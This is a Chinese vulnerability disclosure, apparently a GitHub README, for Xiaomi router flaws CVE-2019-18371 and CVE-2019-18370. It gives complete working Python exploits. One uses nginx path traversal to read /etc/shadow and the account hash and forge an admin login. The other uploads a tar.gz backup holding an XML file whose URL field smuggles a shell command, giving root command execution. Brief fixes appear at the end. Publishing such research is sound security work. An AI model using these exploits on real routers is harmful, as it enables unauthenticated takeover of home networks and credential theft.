


# 小米系列路由器远程命令执行漏洞（CVE-2019-18370，CVE-2019-18371）

discoverer: UltramanGaia from Kap0k & Zhiniang Peng from 360 Core Security 

漏洞发现时间：2019-03-09

## 漏洞影响范围

在小米系列路由器（最新版开发版/稳定版）中存在漏洞，可以实现无需登录，任意远程命令执行。


## 远程任意文件读取漏洞（CVE-2019-18371）

#### 小米路由器的nginx配置文件错误，导致目录穿越漏洞，实现任意文件读取（无需登录）

nginx配置不当可导致目录穿越漏洞，

```
location /xxx {
  alias /abc/;
}
```

可通过访问`http://domain.cn/xxx../etc/passwd`实现目录穿越访问上级目录及其子目录文件。

在小米路由器的文件`/etc/sysapihttpd/sysapihttpd.conf`中，存在

```
location /api-third-party/download/extdisks {
	alias /extdisks/;
}
```

故可以任意文件读取根目录下的所有文件，而且是root权限，如访问`http://192.168.31.1/api-third-party/download/extdisks../etc/shadow`


类似的问题，存在多处如

```
location /backup/log {
	alias /tmp/syslogbackup/;
}

location /api-third-party/download/public {
	alias /userdisk/data/;
}
location /api-third-party/download/private {
	alias /userdisk/appdata/;
}

```


#### 通过任意文件读取，登录路由器后台

不是明文存储密码，进行一定分析。关注两个过程，一是登录时前端js生成http post请求参数过程，二是验证用户登陆的后端过程。

- 登录时前端js生成http post请求参数过程

  ```javascript
  var Encrypt = {
      key: 'a2ffa5c9be07488bbb04a3a47d3c5f6a',
      iv: '64175472480004614961023454661220',
      nonce: null,
      init: function(){
          var nonce = this.nonceCreat();
          this.nonce = nonce;
          return this.nonce;
      },
      nonceCreat: function(){
          var type = 0;
          // 自己的mac地址
          var deviceId = '<%=mac%>';
          var time = Math.floor(new Date().getTime() / 1000);
          var random = Math.floor(Math.random() * 10000);
          return [type, deviceId, time, random].join('_');
      },
      oldPwd : function(pwd){ // oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
          return CryptoJS.SHA1(this.nonce + CryptoJS.SHA1(pwd + this.key).toString()).toString();
      },
    //...
  };
  ```

  可知`oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))`，登陆请求包为

  ```shell
  POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
  Host: 192.168.31.1
  
  username=admin&password=c9e62da7b8a0b7a4918c5a90912ba81a9717f9ab&logtype=2&nonce=0_mac地址_时间戳_5248
  ```

  

- 验证用户登陆的后端过程

  调用`XQSecureUtil.checkUser`函数

  ```java
  function checkUser(user, nonce, encStr)
      -- 从xiaoqiang 配置文件中读取信息
      local password = XQPreference.get(user, nil, "account")
      if password and not XQFunction.isStrNil(encStr) and not XQFunction.isStrNil(nonce) then
          if XQCryptoUtil.sha1(nonce..password) == encStr then
              return true
          end
      end
      XQLog.log(4, (luci.http.getenv("REMOTE_ADDR") or "").." Authentication failed", nonce, password, encStr)
      return false
  end
  ```

  跟进`XQPreference.get`函数易知道是从`/etc/config/account`文件中读取某个字符串，这里称它为`accountStr`。

  `checkUser`函数判断等式为(encStr为参数oldPwd)

  ```
  sha1(nonce + sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
  ==
  sha1(nonce + accountStr)
  ```

  则

  ```
  accountStr == sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a')
  ```

  故，只需要读取`/etc/config/account`得到`accountStr`即可构造如下数据包登陆

  ```shell
  POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
  Host: 192.168.31.1
  
  username=admin&password=sha1(nonce + account中保存的字符串)&logtype=2&nonce=0_mac地址_时间戳_5248
  ```


实现任意登陆poc

arbitrary_file_read_vulnerability.py

```python
import os
import re
import time
import base64
import random
import hashlib
import requests
from Crypto.Cipher import AES

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

def get_mac():
	## get mac
	r0 = requests.get("http://192.168.31.1/cgi-bin/luci/web", proxies=proxies)
	mac = re.findall(r'deviceId = \'(.*?)\'', r0.text)[0]
	# print(mac)	
	return mac

def get_account_str():
	## read /etc/config/account
	r1 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../etc/config/account", proxies=proxies)
	print(r1.text)
	account_str = re.findall(r'admin\'? \'(.*)\'', r1.text)[0]
	return account_str

def create_nonce(mac):
	type_ = 0
	deviceId = mac
	time_ = int(time.time())
	rand = random.randint(0,10000)
	return "%d_%s_%d_%d"%(type_, deviceId, time_, rand)

def calc_password(nonce, account_str):
	m = hashlib.sha1()
	m.update((nonce + account_str).encode('utf-8'))
	return m.hexdigest()

mac = get_mac()
account_str = get_account_str()
## login, get stok
nonce = create_nonce(mac)
password = calc_password(nonce, account_str)
data = "username=admin&password={password}&logtype=2&nonce={nonce}".format(password=password,nonce=nonce)
r2 = requests.post("http://192.168.31.1/cgi-bin/luci/api/xqsystem/login", 
	data = data, 
	headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0",
		"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"},
	proxies=proxies)
# print(r2.text)
stok = re.findall(r'"token":"(.*?)"',r2.text)[0]
print("stok="+stok)
```



可以获取到登录的stok。


## 远程命令执行漏洞（root权限）（CVE-2019-18370）

备份文件是`tar.gz`格式的，上传后`tar zxf`解压，所以构造备份文件，可以控制解压目录的文件内容，结合测试上传下载速度功能的sh脚本执行时读取测试url列表文件，并将url部分直接进行命令拼接执行。

- 备份文件解压导致`/tmp/`目录任意文件可控

  在`/usr/lib/lua/luci/controller/api/misystem.lua`中，配置文件功能如下

```lua
function cUpload()
    local LuciFs = require("luci.fs")
    local XQBackup = require("xiaoqiang.module.XQBackup")
    local code = 0
    local canupload = true
    local uploadFilepath = "/tmp/cfgbackup.tar.gz"
    local fileSize = tonumber(LuciHttp.getenv("CONTENT_LENGTH"))
    if fileSize > 102400 then
        canupload = false
    end
    LuciHttp.setfilehandler(
        function(meta, chunk, eof)
            if canupload then
                if not fp then
                    if meta and meta.name == "image" then
                        fp = io.open(uploadFilepath, "w")
                    end
                end
                if chunk then
                    fp:write(chunk)
                end
                if eof then
                    fp:close()
                end
            else
                code = 1630
            end
        end
    )
    if LuciHttp.formvalue("image") and fp then
        code = 0
    end
    local result = {}
    if code == 0 then
        local ext = XQBackup.extract(uploadFilepath)
        if ext == 0 then
            result["des"] = XQBackup.getdes()
        else
            code = 1629
        end
    end
    if code ~= 0 then
        result["msg"] = XQErrorUtil.getErrorMessage(code)
        LuciFs.unlink(uploadFilepath)
    end
    result["code"] = code
    LuciHttp.write_json(result)
end
```

其中调用`XQBackup.extract(uploadFilepath)`进行解压

```lua
-- 0:succeed
-- 1:file does not exist
-- 2:no description file
-- 3:no mbu file
function extract(filepath)
    local fs = require("nixio.fs")
    local tarpath = filepath
    if not tarpath then
        tarpath = TARMBUFILE
    end
    if not fs.access(tarpath) then
        return 1
    end
    os.execute("cd /tmp; tar -xzf "..tarpath.." >/dev/null 2>/dev/null")
    os.execute("rm "..tarpath.." >/dev/null 2>/dev/null")
    if not fs.access(DESFILE) then
        return 2
    end
    if not fs.access(MBUFILE) then
        return 3
    end
    return 0
end
```

可知，`/tmp`目录下的任意文件可控

- `/usr/bin/upload_speedtest,/usr/bin/download_speedtest`等会读取`/tmp/speedtest_urls.xml`并提取url直接进行命令拼接，且这几个脚本可以通过web接口调用

举例，查看`/usr/bin/download_speedtest`文件

```lua
#!/usr/bin/env lua
-- ...
local cfg = {
-- ...
	['xmlfile'] = "/usr/share/speedtest.xml",
        ['tmp_speedtest_xml'] = "/tmp/speedtest_urls.xml",
}
VERSION="__UNDEFINED__"
-- ...
-- 测试网速使用的url文件为，若存在/tmp/speedtest_urls.xml则使用，否则用/usr/share/speedtest.xml
local filename = ""
filexml = io.open(cfg.tmp_speedtest_xml)
if filexml then
    filexml:close()
    filename = cfg.tmp_speedtest_xml
else
    filename = cfg.xmlfile
end

local pp = io.open(filename)
local line = pp:read("*line")
local size = 0
local resources = {}
local u = ""
local pids = {}
-- ...
function wget_work(url)
	local _url = url
	pid = posix.fork()
	if pid < 0 then
		print("fork error")
		return -1
	elseif pid > 0 then
		--print(string.format("child pid %d\n", pid))
	else
        -- 拼接命令，最终在这里执行
		os.execute('for i in $(seq '.. math.floor(cfg.nr/cfg.nc) ..'); do wget '.. url  ..
		" -q -O /dev/null; done")
	end
	return pid
end

while line do
    -- 从文件中提取url， 这里提取没有进行过滤
	local _, _, url = string.find(line,'<item url="(.*)"/>')
	if url then
		table.insert(resources, url)
	end
	line = pp:read("*line")
end
pp:close()

local urls = mrandom(1, table.getn(resources), cfg.nc)

for k, v in ipairs(urls) do
	if VERSION == "LESSMEM" then
		local pid = wget_work_loop(resources[v])
	else
        -- VERSION 为 __UNDEFINED__， url直接作为参数
		local pid = wget_work(resources[v])
	end
	if(pid == 0) then
		os.exit(0)
	elseif(pid == -1) then
		done()
	end
end


```

调用的地方貌似有好几个，其中`/usr/lib/lua/luci/controller/api/xqnetdetect.lua`中

```lua
function netspeed()
    local XQPreference = require("xiaoqiang.XQPreference")
    local XQNSTUtil = require("xiaoqiang.module.XQNetworkSpeedTest")
    local code = 0
    local result = {}
    local history = LuciHttp.formvalue("history")
    if history then
        result["bandwidth"] = tonumber(XQPreference.get("BANDWIDTH", 0, "xiaoqiang"))
        result["download"] = tonumber(string.format("%.2f", 128 * result.bandwidth))
        result["bandwidth2"] = tonumber(XQPreference.get("BANDWIDTH2", 0, "xiaoqiang"))
        result["upload"] = tonumber(string.format("%.2f", 128 * result.bandwidth2))
    else
        os.execute("/etc/init.d/miqos stop")
        -- 这里调用了downloadSpeedTest
        local download = XQNSTUtil.downloadSpeedTest()
        if download then
            result["download"] = download
            result["bandwidth"] = tonumber(string.format("%.2f", 8 * download/1024))
            XQPreference.set("BANDWIDTH", tostring(result.bandwidth), "xiaoqiang")
        else
            code = 1588
        end
        if code ~= 0 then
           result["msg"] = XQErrorUtil.getErrorMessage(code)
        end
        os.execute("/etc/init.d/miqos start")
    end
    
    result["code"] = code
    LuciHttp.write_json(result)
end
```

```lua
function downloadSpeedTest()
    local speedtest = "/usr/bin/download_speedtest"
    local speed
    -- 直接调用sh文件
    for _, line in ipairs(LuciUtil.execl(speedtest)) do
        if not XQFunction.isStrNil(line) and line:match("^avg rx:") then
            speed = line:match("^avg rx:(%S+)")
            if speed then
                speed = tonumber(string.format("%.2f",speed/8))
            end
            break
        end
    end
    return speed
end
```

所以，我们只需要构造恶意的`speedtest_urls.xml`文件，构造备份文件，上传备份文件，然后调用网络测试相关的接口，即可以实现命令注入。

实现命令执行poc

template.xml文件

```
<?xml version="1.0"?>
<root>
	<class type="1">
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
	</class>
	<class type="2">
		<item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt; exit; wget http://192.168.31.1  "/>
	</class>
	<class type="3">
		<item uploadurl="http://www.taobao.com/"/>
		<item uploadurl="http://www.so.com/"/>
		<item uploadurl="http://www.qq.com/"/>
		<item uploadurl="http://www.sohu.com/"/>
		<item uploadurl="http://www.tudou.com/"/>
		<item uploadurl="http://www.360doc.com/"/>
		<item uploadurl="http://www.kankan.com/"/>
		<item uploadurl="http://www.speedtest.cn/"/>
	</class>
</root>
```

remote_command_execution_vulnerability.py

```python
import os
import tarfile
import requests

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

## get stok
stok = input("stok: ")

## make config file
command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
	template = f.read()
data = template.format(command=command)
# print(data)
with open("speedtest_urls.xml",'wt') as f:
	f.write(data)

with tarfile.open("payload.tar.gz", "w:gz") as tar:
	# tar.add("cfg_backup.des")
	# tar.add("cfg_backup.mbu")
	tar.add("speedtest_urls.xml")

## upload config file
print("start uploading config file ...")
r1 = requests.post("http://192.168.31.1/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
# print(r1.text)

## exec download speed test, exec command
print("start exec command...")
r2 = requests.get("http://192.168.31.1/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
# print(r2.text)

## read result file
r3 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
	print("success, vul")
	print(r3.text)
```

## 结合二者，无需登录远程命令执行



经测试，在小米系列路由器中存在该漏洞，如小米路由器R3G、小米路由器R3A、小米路由器R4等

## 修复方案

## 任意文件读取

将`/etc/sysapihttpd/sysapihttpd.conf`中的形如以下形式修改为

```
location /xxx {
  alias /abc/;
}
```

修改为

```
location /xxx/ {
  alias /abc/;
}
```

## 远程命令执行

1. 将备份文件格式修改为特定格式，直接读取备份文件内容，而不需使用解压
2. 从`speedtest_urls.xml`中读取urls时，进行必要的过滤，防止命令注入

